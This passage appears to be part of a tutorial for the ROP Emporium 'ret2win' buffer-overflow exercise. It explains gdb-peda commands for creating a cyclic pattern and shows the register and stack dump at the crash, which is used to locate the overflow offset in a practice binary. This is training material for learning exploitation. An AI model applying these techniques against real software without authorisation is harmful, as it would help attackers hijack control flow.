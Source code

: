 ##### Command Explaination

* `gdb ret2win` : This will open the gdb with ret2win binary for the processing.
* `pattern_create 100 input` : This will create a offset pattern of the length provided, in our case it's 100. `input` is the file where the offset willbe written.
* `r < input` : This will run the binary ret2win and gives the `input` file as input.


# Analyzing the offsets

Let's see the peda's work and informatio it provided us:-

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0x1f 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RDI: 0x7fffffffde11 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffde38 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde38 ("AA0AAFAAb")
0008| 0x7fffffffde40 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffde48 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
0024| 0x7fffffffde50 --> 0x1 
0032| 0x7fffffffde58 --> 0x7fffffffdf28 --> 0x7fffffffe2b4 ("/home/robin/ROP-Emporium/ret2win")
0040| 0x7fffffffde60 --> 0x100008000 
0048| 0x7fffffffde68 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffde70 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()

```
